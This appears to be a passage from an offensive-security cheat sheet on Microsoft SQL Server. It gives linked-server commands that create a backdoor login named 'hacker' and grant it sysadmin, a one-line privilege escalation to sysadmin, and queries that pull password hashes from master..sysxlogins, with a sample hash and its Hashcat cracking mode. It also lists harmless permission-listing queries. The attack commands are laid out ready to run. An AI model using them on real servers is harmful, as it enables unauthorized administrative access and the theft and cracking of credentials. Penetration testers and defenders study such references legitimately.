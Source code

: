 ```sql
-- create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

## MSSQL Privileges

### MSSQL List Permissions

* Listing effective permissions of current user on the server.

    ```sql
    SELECT * FROM fn_my_permissions(NULL, 'SERVER'); 
    ```

* Listing effective permissions of current user on the database.

    ```sql
    SELECT * FROM fn_my_permissions (NULL, 'DATABASE');
    ```

* Listing effective permissions of current user on a view.

    ```sql
    SELECT * FROM fn_my_permissions('Sales.vIndividualCustomer', 'OBJECT') ORDER BY subentity_name, permission_name; 
    ```

* Check if current user is a member of the specified server role.

    ```sql
    -- possible roles: sysadmin, serveradmin, dbcreator, setupadmin, bulkadmin, securityadmin, diskadmin, public, processadmin
    SELECT is_srvrolemember('sysadmin');
    ```

### MSSQL Make User DBA

```sql
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;
```

## MSSQL Database Credentials

* **MSSQL 2000**: Hashcat mode 131: `0x01002702560500000000000000000000000000000000000000008db43dd9b1972a636ad0c7d4b8c515cb8ce46578`

    ```sql
    SELECT name, password FROM master..sysxlogins
    SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins 
    -- Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer
    ```

